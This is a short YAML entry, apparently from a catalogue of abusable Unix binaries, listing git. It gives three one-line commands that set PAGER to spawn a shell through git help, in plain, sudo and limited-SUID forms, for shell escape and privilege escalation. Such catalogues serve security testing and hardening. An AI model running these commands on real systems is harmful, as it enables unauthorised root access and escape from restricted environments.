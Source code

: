 ```yaml
---
name: git
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

